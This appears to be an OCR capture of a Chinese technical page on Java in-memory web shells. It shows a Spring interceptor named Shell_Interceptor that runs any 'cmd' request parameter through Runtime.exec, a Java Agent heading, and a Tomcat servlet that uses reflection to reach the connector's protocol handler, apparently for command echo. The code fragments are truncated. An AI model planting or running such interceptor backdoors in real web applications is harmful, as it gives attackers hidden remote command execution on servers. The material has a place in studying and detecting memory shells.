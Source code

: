 ```java
    }

    public class Shell_Interceptor implements HandlerInterceptor{
        @Override
        public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {
            String cmd = request.getParameter("cmd");
            if (cmd != null) {
                try {
                    Runtime.getRuntime().exec(cmd);
......   

```

## Agent内存马
Java Agent就是一种能在不影响正常编译的前提下，修改Java字节码，进而动态地修改已加载或未加载的类、属性和方法的技术。

```java
......    
@WebServlet("/response")
public class Tomcat_Echo_Response extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {

        //获取StandardService
        org.apache.catalina.loader.WebappClassLoaderBase webappClassLoaderBase = (org.apache.catalina.loader.WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
        StandardContext standardContext = (StandardContext) webappClassLoaderBase.getResources().getContext();

        System.out.println(standardContext);

        try {
            //获取ApplicationContext
            Field applicationContextField = Class.forName("org.apache.catalina.core.StandardContext").getDeclaredField("context");
            applicationContextField.setAccessible(true);
            ApplicationContext applicationContext = (ApplicationContext) applicationContextField.get(standardContext);

            //获取StandardService
            Field standardServiceField = Class.forName("org.apache.catalina.core.ApplicationContext").getDeclaredField("service");
            standardServiceField.setAccessible(true);
            StandardService standardService = (StandardService) standardServiceField.get(applicationContext);

            //获取Connector
            Field connectorsField = Class.forName("org.apache.catalina.core.StandardService").getDeclaredField("connectors");
            connectorsField.setAccessible(true);
            Connector[] connectors = (Connector[]) connectorsField.get(standardService);
            Connector connector = connectors[0];

            //获取Handler
            ProtocolHandler protocolHandler = connector.getProtocolHandler();
            Field handlerField = Class.forName("org.apache.coyote.AbstractProtocol").getDeclaredField("handler");
            handlerField.setAccessible(true);
            org.apache.tomcat.util.net.AbstractEndpoint.Handler handler = (AbstractEndpoint.Handler) handlerField.get(protocolHandler);

```